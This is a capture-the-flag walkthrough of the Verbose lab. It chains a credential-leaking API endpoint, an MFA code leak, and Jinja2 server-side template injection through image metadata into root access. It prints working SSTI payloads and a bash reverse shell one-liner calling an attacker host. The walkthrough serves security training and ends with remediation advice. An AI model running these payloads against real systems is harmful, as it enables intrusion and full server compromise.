In this walkthrough, we will be compromising Verbose, an easy-difficulty web application lab from Hack Smarter Labs. The target is a Flask web application with open user registration. After registering an account, we intercept a request to `/api/users/all` in Burp Suite that returns plaintext credentials for every user in the database, including the admin account. An MFA prompt blocks admin login, but re-querying the same endpoint leaks the generated MFA code. With admin access, a file upload feature in the site branding panel reflects image metadata into the page template, and we confirm Jinja2 Server-Side Template Injection (SSTI) by injecting payloads through exiftool. Escalating from SSTI to remote code execution returns a shell as `root` for full server compromise.


Created by: [Tyler Ramsbey](https://www.hacksmarter.org/courses/5018ef14-b136-4331-aef0-8fb0a88a3efb)

Let's get started.

## Objective

You have been authorized to perform an external penetration test against a target organization. During the initial reconnaissance phase, you identified a web application that allows unrestricted public user registration.

1. **Enumerate:** Map the application's attack surface and functionality.
2. **Identify:** Locate exploitable vulnerabilities within the application logic or configuration.
3. **Exploit & Escalate:** Leverage identified flaws to compromise the system, with the final goal of securing root access to the host server to demonstrate maximum impact.

## Scope

**Target:** `10.1.69.115`

## Nmap

We start with a full port scan to map the attack surface.

```
nmap -p- --open -sC -sV -T4 10.1.69.115
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 93:07:ff:15:fe:3f:48:f8:2f:12:d4:17:73:db:a7:dd (ECDSA)
|_  256 5f:74:1d:0f:b2:39:23:ad:77:9a:45:70:1a:f4:51:26 (ED25519)
80/tcp open  http    Werkzeug httpd 3.1.5 (Python 3.12.3)
|_http-server-header: Werkzeug/3.1.5 Python/3.12.3
| http-title: Hack Smarter Portal
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



*Nmap scan: SSH on 22 and HTTP on 80 with Werkzeug and Python identified*

Two ports open: SSH on 22 and HTTP on 80. The HTTP banner identifies Werkzeug 3.1.5 running Python 3.12.3, and the page title redirects to `/login`. Let's check if SSH accepts password authentication.

```
ssh root@10.1.69.115
```

```
root@10.1.69.115: Permission denied (publickey).
```



*SSH requires key-based authentication with no password login available*

SSH requires key-based authentication, so we set that aside and focus on the web application.

## HTTP (Port 80)

We open Burp Suite and navigate to `http://10.1.69.115`. The application presents a login page for the Hack Smarter Portal.



*Verbose web application with Wappalyzer confirming Flask and Python*

Wappalyzer confirms this is a Flask application running Python. We register an account and click through the application as a standard user to understand its functionality. When clicking the messages feature, the application displays a list of users available to message.



*Messages feature displaying available users on the platform*

Let's check what requests are being made behind the scenes in Burp Suite.

## API Enumeration

In Burp, we notice a GET request to `/api/users/all` triggered by the messages page. The response returns far more information than a messages feature should need.

```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.5 Python/3.12.3
Date: Sun, 21 Jun 2026 22:52:43 GMT
Content-Type: application/json
Content-Length: 570
Connection: close

[{"email":"tony@hacksmarter.local","id":1,"mfa":null,"password":"basketball","role":"user","username":"tony"},{"email":"johnny@hacksmarter.local","id":2,"mfa":null,"password":"dolphin","role":"user","username":"johnny"},{"email":"admin@hacksmarter.local","id":3,"mfa":null,"password":"YouWontGetThisPasswordYouNoobLOL123","role":"admin","username":"admin"},{"email":"student@hacksmarter.local","id":4,"mfa":null,"password":"liverpool","role":"user","username":"student"},{"email":"bird@test.com","id":5,"mfa":null,"password":"password","role":"user","username":"bird"}]
```



*Burp Suite: /api/users/all returning plaintext credentials for all users including admin*

The API dumps the entire user table in plaintext: usernames, emails, passwords, MFA codes, and roles. We immediately spot the admin account with the password `YouWontGetThisPasswordYouNoobLOL123`. The `mfa` field is `null` for all users right now. Let's try logging in as admin.

## Access as admin

We log out and authenticate as `admin` with the leaked password. The application prompts us for an MFA code.



*MFA prompt blocking admin login after credential entry*

When we attempted to login, the server generated an MFA code for the admin account. Since the `/api/users/all` endpoint exposes everything without restriction, we send the request to Burp Repeater and fire it again.



*Burp Repeater: MFA code populated for admin after re-querying /api/users/all*

The `mfa` field for admin is now populated. We enter the code and complete the login. The Admin Panel gives us our first flag.



*Admin panel accessed with first flag retrieved*

## SSTI

With admin access, we explore the additional functionality available. The front page of the Admin Panel has a Site Branding section where we can upload a PNG file.



*Admin panel Site Branding section with PNG file upload*

We upload a test PNG and click the `Preview Current Logo` button. The preview page displays image metadata fields including `Copyright / Artist`. If the application is rendering metadata directly into the page, we can control what gets displayed by modifying the image metadata with exiftool.

```
exiftool -Artist="0xB1rd" image.png
```



*exiftool: Artist field set to 0xB1rd on test image*

We upload the modified image and preview it. Our input is reflected on the page under the metadata field.



*Reflected input: 0xB1rd rendered in the Copyright / Artist metadata field*

We have confirmed reflected input through image metadata. With reflected input, we consider attack paths like Cross-Site Scripting (XSS) and Server-Side Template Injection (SSTI). Since we already have admin access on the web application, XSS does not move us forward. Our next objective is a foothold on the server itself, and SSTI can get us there. This is a Flask application, so the templating engine is almost certainly Jinja2. We use [HackTricks](https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) as a reference for Jinja2 SSTI payloads and start with a basic arithmetic test. If the page renders `49` instead of the literal string, SSTI is confirmed.

```
exiftool -Artist="{{7*7}}" image.png
```

We upload the image and click `Preview Current Logo`. The metadata field displays `49`.



*SSTI confirmed: Jinja2 expression {{7*7}} rendered as 49*

SSTI is confirmed. We escalate to remote code execution using a Jinja2 payload that calls `os.popen()` to execute system commands.

```
exiftool -Artist="{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}" image.png
```

We upload, preview, and the metadata field displays `uid=0(root) gid=0(root) groups=0(root)`. We have RCE as root.



*RCE via SSTI: id command returning uid=0(root) gid=0(root) groups=0(root)*

## Shell as root (root.txt)

With confirmed RCE as root, we craft a reverse shell payload and embed it in the image metadata. We catch the shell with [Penelope](https://github.com/brightio/penelope), which handles the shell upgrade automatically.

```
exiftool -Artist="{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \"bash -i >& /dev/tcp/10.200.65.100/1337 0>&1\"').read() }}" image.png
```

With the image prepared, we start our Penelope listener.

```
penelope -p 1337
```

With the listener running, we upload the image and click `Preview Current Logo`. The web application hangs as the reverse shell connects, and Penelope catches the shell.



*Penelope: reverse shell received as root on Verbose*

We confirm with `id` that we are root and grab the final flag from `/root/root.txt`.



*root.txt: final flag captured from /root directory*

## Final Thoughts

Verbose is a clean and well-paced easy lab that covers several important web application security fundamentals. The chain from open registration to root moves fast, and the MFA bypass through the same leaky API endpoint is a nice detail. The SSTI exploitation path through image metadata was a creative attack surface that I enjoyed working through.

The core issue is the `/api/users/all` endpoint returning sensitive data with no access controls. API endpoints should enforce role-based authorization, never return plaintext passwords, and never expose MFA codes in responses. On the SSTI side, user-controlled input passed into a template engine needs to be sanitized or rendered safely, and image metadata should be treated as untrusted input before being displayed on a page. The application also runs as root, so SSTI immediately granted full system access with no privilege escalation required. Web applications should always run under a least-privilege service account to limit the blast radius of any code execution vulnerability.

— 0xB1rd
